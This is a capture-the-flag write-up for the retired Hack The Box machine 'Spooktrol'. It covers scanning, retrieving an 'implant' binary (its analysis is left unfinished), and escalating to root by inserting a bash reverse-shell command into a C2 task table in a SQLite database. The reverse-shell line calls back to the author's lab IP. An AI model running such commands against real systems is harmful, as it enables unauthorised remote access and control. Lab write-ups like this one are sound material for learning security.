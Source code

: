 # Spooktrol

This is the write-up for the box Spooktrol that got retired at the 26th October 2021.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.123    spooktrol.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/spooktrol.nmap 10.10.11.123
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
|   256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
|_  256 2221e9f485908745161f733641ee3b32 (ED25519)
80/tcp   open  http    uvicorn
|_http-title: Site doesn't have a title (application/json).               
|_http-server-header: uvicorn
| http-robots.txt: 1 disallowed entry
|_/file_management/?file=implant
| fingerprint-strings:
|   FourOhFourRequest:
(...)
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 1677768a65a3db231121666ee4c3f232 (RSA)
|   256 6192eb7aa914d76051000c4421a26108 (ECDSA)
|_  256 75c1969c69aac874ef4f72bd6253e94c (ED25519
```

## Checking HTTP (Port 80)

According to the scan, the web server is running on [uvicorn](https://www.uvicorn.org/), which is an **ASGI (Asynchronous Server Gateway Interface)** web server implementation written in **Python**.
The website is a JSON API and has one object:
```
auth: "1ee972476b15c93de27115868a30e75a"
```

The initial scan found the _robots.txt_ file, which has one entry to the directory _/file_management/?file=implant_.
It outputs binary data, so the _implant_ file can be downloaded for further analysis:
```
curl 'http://10.10.11.123/file_management/?file=implant' -o implant
```

The `file` command recognizes it as an **ELF binary**:
```
file implant

implant: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=ce05777839d03f0df9cfcc82f20c437dd55e645e, with debug_info, not stripped
```

### Reverse Engineering Binary

Dynamic analysis by executing the binary:
```
./implant
```

> Executing resolves in a Segmentation Fault, which should not happen so I cannot proceed.
> TBD

## Privilege Escalation

In the root directory is a _.dockerenv_ file, which means that this is a **Docker container** we have to break out of.

The web application is in the directory _/opt/spook2_ and in there is a **SQLite database**:
```
sqlite3 sql_app.db
```

Checking tables of the database:
```
sqlite> .schema
```

Enumerating the table _sessions_:
```
sqlite> select * from sessions;

1|10a6dd5dde6094059db4d23d7710ae12|spooktrol
```

Enumerating the table _tasks_:
```
sqlite> select * from tasks;

1|10a6dd5dde6094059db4d23d7710ae12|1|1|whoami||root
```

This is the same ID and when enumerating the table _checkins_ for this string, it shows that the user root executes `whoami` every two minutes:
```
sqlite> select * from checkins where session == '10a6dd5dde6094059db4d23d7710ae12';
```

The command can be found in the database and can be modified to execute a reverse shell:
```
sqlite> .dump tasks
```
```
sqlite> INSERT INTO tasks VALUES(2,'10a6dd5dde6094059db4d23d7710ae12',0,1,'bash -c "bash -i >& /dev/tcp/10.10.14.2/9001 0>&1"','','');
```

After two minutes, it will execute the command and the listener on my IP and port 9001 starts a reverse shell as root!
